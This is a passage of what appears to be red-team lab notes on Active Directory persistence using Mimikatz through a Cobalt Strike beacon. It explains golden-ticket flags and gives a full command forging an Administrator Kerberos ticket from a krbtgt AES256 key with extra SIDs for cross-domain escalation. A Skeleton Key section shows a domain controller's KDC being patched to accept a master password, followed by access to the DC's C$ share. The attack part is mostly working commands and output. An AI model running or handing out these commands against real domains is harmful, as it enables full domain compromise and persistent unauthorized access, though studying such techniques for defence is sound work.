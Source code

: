 -   `/user` is the username to impersonate.
-   `/domain` is the current domain.
-   `/sid` is the current domain SID.
-   `/sids` is the SID of the target group to add ourselves to.
-   `/aes256` is the AES256 key of the current domain's krbtgt account.
-   `/startoffset` sets the start time of the ticket to 10 mins before the current time.
-   `/endin` sets the expiry date for the ticket to 60 mins.
-   `/renewmax` sets how long the ticket can be valid for if renewed.

```beacon
mimikatz kerberos::golden /user:Administrator /domain:child.rto.local /sid:S-1-5-21-1886337448-2504686659-850325809-512 /sids:S-1-5-21-2323903455-1895497758-3703895482-512 /aes256:0c5f44579dd7cd99796e0ca64506184e2779d4ab96690ac042a80e1d29097477 /startoffset:-10 /endin:600 /renewmax:10080
```

## [[Skeleton Key]]
```
beacon> mimikatz !misc::skeleton
[KDC] data
[KDC] struct
[KDC] keys patch OK
[RC4] functions
[RC4] init patch OK
[RC4] decrypt patch OK

beacon> make_token EDU\Administrator mimikatz
[+] Impersonated EDU\john

beacon> ls \\dc-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 dir     05/19/2022 11:11:35   $Recycle.Bin
 dir     05/10/2022 03:23:44   Boot
 dir     10/18/2016 01:59:39   Documents and Settings
 dir     05/23/2018 11:06:05   PerfLogs
 dir     12/13/2017 21:00:56   Program Files
 dir     05/10/2022 02:01:55   Program Files (x86)
 dir     03/10/2022 14:38:44   ProgramData
 dir     10/18/2016 02:01:27   Recovery
 dir     03/10/2022 13:52:03   Shares
 dir     05/19/2022 11:39:02   System Volume Information
 dir     03/11/2022 12:59:29   Users
 dir     05/19/2022 13:26:27   Windows
 379kb    fil     01/28/2022 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 448mb    fil     03/11/2022 09:19:53   pagefile.sys
```

## [[Data Protection API (DPAPI)]]
#OPSEC Not recommended. Try gathering it from the DC
